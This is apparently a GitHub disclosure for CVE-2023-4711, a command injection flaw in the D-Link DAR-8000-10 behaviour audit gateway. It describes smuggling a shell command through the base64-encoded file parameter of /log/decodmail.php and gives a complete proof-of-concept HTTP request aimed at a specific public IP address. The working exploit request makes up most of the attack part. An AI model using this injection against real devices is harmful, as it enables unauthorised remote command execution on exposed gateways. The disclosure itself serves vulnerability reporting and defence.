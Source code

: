 CVE-2023-4711
The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![WPS图片(1)](https://github.com/TinkAnet/cve/assets/118334129/8a348409-d318-414f-9e80-a0cf25c01d13)

Construct the file parameter /etc/' sleep${IFS}10 '.pcap, and then use base64 encode to construct the file parameter, and successfully execute the system command

POC
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=25b739a8fcf3db5555845ffce2251be5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
![WPS图片(2)](https://github.com/TinkAnet/cve/assets/118334129/cbb9dc67-e3b9-4fe1-bbef-7dbcfada98d9)

